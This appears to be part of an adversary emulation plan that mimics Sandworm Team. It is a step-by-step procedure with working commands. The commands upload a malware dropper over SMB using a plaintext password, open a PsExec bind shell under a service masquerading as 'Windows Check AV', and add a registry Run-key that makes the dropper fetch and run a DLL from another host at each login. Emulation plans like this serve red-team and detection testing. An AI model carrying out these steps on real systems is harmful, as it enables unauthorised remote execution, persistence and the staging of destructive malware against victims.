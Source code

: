 ### ☣️ Procedures

:warning: Go back to your first terminal tab (P.A.S. Webshell); re-name it "PsExec-Gammu".

Upload Exaramel-Windows-Dropper.exe to gammu/10.0.1.7 as `C:\Windows\wsmprovav.exe`.

```bash
# Sandworm Team has pushed additional malicious tools onto an infected system to steal user credentials, move laterally, and destroy data.

# Sandworm Team have used previously acquired legitimate credentials prior to attacks.

smbclient -U 'WORKGROUP\fherbert' //10.0.1.7/ADMIN$ -c "put sandworm/Resources/Exaramel-Windows-Dropper/wsmprovav.exe wsmprovav.exe;" "Whg42WbhhCE17FEzrqeJ"
```

**Note**: `smbclient` may produce the following message: `Unable to initialize messaging context.` This message can be safely ignored.

Use psexec.py to gain a bind-shell to gammu/10.0.1.7 over SMB (TCP 445):

```bash
# Sandworm-associated malware including Olympic Destroyer, BlackEnergy, and notPetya use PsExec to interact with the ADMIN$ network share to execute commands on remote systems.

# The Exaramel for Windows dropper creates and starts a Windows service named wsmprovav with the description "Windows Check AV."

/usr/share/doc/python-impacket/examples/psexec.py -service-name "Windows Check AV" WORKGROUP/fherbert@10.0.1.7
```

Enter password:

`Whg42WbhhCE17FEzrqeJ`

:warning: Observe the PsExec binary name, and paste it in the Slack chat for easy identification:

```bash
# Your EXE name will differ

[*] Uploading file enTHfBuw.exe
```

Load the registry hive for user fherbert.

```bash
reg.exe LOAD HKU\Temp "C:\Users\fherbert\NTUSER.DAT"
```

Set registry persistence for user fherbert only.

This will execute a Exaramel-Windows dropper on fherbert login.

```bash
# Sandworm associated malware such as Exaramel-Windows and Olympic Destroyer have modified the registry.

# Sandworm Team used a backdoor which could execute a supplied DLL using rundll32.exe.
```
```bash
reg.exe ADD HKU\Temp\Software\Microsoft\Windows\CurrentVersion\Run /t REG_EXPAND_SZ /v SecurityHealth /d "C:\Windows\wsmprovav.exe http://192.168.0.4:8080/getFile/wsmprovav.dll C:\Windows\wsmprovav.dll"
```
